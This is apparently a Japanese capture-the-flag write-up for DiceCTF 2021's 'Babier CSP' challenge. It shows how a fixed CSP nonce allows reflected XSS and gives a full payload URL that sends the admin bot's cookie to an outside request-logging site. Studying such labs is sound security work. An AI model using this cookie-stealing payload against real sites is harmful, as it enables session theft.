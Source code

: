 # web/Babier CSP

## 問題
[babier-csp.dicec.tf](babier-csp.dicec.tf)  
[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)  

The admin will set a cookie `secret` equal to `config.secret` in [index.js](https://github.com/raster0x2a/CTF-writeup/blob/master/DiceCTF/index.js).

## 解説
まず [babier-csp.dicec.tf](babier-csp.dicec.tf) は name に渡された文字列をそのまま表示させています。そのため XSS が期待できますが、 `<script>alert('ok')</script>` などを直接入れても以下のように怒られます。  

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-LRGWAXOY98Es0zz0QOVmag=='". Either the 'unsafe-inline' keyword, a hash ('sha256-GhSELej6D4No8Cu4c6BlA7SQooAXc4iM9HQ5s9uW7Gw='), or a nonce ('nonce-...') is required to enable inline execution.
```

script タグの nonce 属性には、CSP(Content Security Policy) によって JavaScript の実行を制限し、XSS などを防ぐ機能があります。しかし nonce の値が予測できてしまえば意味をなさないため、本来はリクエストごとにランダムな文字列を生成しなければならないのですが、このページでは `LRGWAXOY98Es0zz0QOVmag==` で固定されています。そのため `<script nonce=LRGWAXOY98Es0zz0QOVmag==>hoge</script>` という形式で怒られずに任意のスクリプトをインジェクションできます。

次に [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp) では、 URL を入力して submit すると入力した URL に Admin がアクセスしてくれます。Admin の cookie を得ることが第一の目的なので、 [babier-csp.dicec.tf](babier-csp.dicec.tf) にアクセスさせてから、cookie をクエリに含めてリクエスト内容を確認できる URL に遷移させることを考えます。
私はリクエストを確認するために [Request Inspector](https://requestinspector.com/) というサイトを利用しました。
具体的には以下の URL を入力することで cookie が確認できました。  
`https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href={Request Inspectorで発行したURL}?${document.cookie}</script>`

`index.js`を見てみると
```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
とあるため、 `https://babier-csp.dicec.tf/{cookieのsecretの値}` にアクセスしてみると、ソースのコメントにフラグが書いてあります。